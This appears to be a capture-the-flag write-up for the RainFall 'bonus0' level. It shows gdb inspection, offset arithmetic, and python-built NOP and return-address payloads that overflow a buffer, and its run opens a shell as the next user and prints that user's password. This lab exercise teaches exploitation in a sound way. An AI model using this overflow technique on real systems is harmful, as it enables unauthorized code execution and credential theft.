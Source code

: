 (gdb) x ebp+4				--> At ebp+4 we have the return address So let s see the address
No symbol table is loaded.  Use the "file" command.
(gdb) x $ebp+4
0xbffff68c:	0x42424242

Now we have the address of our buffer and we have the address of the return address (ebp+4)
We open python and substract our two addresses :
0xbffff68c - 0xbffff656
54

We have 54 bytes to write before overwriting the return address !!
Now that we have our padding, let s start to write our payload.

let s see again our schema :
		20 bytes		19 bytes	1bytes		19 bytes		
<------------------><----------------->|<------------------>
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEDDD BBBBCCCCDDDDEEEEDDD

we can write 58 bytes, perfect we just need 54 + 4 (The address of our shellcode)

first payload :

		20 bytes
<------------------>
AAAAAAAAAAAAAAAAAAAA

python -c 'print "A"*20'  > /tmp/first


Second payload :

	14 bytes		4 bytes		1 bytes
<-------><-------------------><>
AAAAAAAAAAAAAA\x93\xfe\xff\xbfA

python -c 'print "\x90"*14 + "\x93\xfe\xff\xbf" + "\x90"' > /tmp/second

Final result :
                                                   1
		20 bytes	      14 bytes	       4 bytes      1|     14bytes        4bytes    1bytes
<------------------><------------><-------------->--<------------><-------------->-
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x93\xfe\xff\xbfA AAAAAAAAAAAAAA\x93\xfe\xff\xbfA
                                                                  <-------------->
                                                                     our shellcode address, and where we overwrite the return address of the main function
                                                   
20 + 14 + 4 + 1 + 1 + 14 = 54       --> 54 is our padding

We wanted to put the shellcode (the second shellcode address at 54 --> the address of the return address):
So we calculated with our previous schema how we can do to put this at the right place.

(cat /tmp/first; cat /tmp/second; cat) | ./bonus0

bonus0@RainFall:~$ python -c 'print "A"*20'  > /tmp/first
bonus0@RainFall:~$ python -c 'print "\x90"*14 + "\x93\xfe\xff\xbf" + "\x90"' > /tmp/second
bonus0@RainFall:~$ (cat /tmp/first; cat /tmp/second; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAA??????????????????? ???????????????????
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9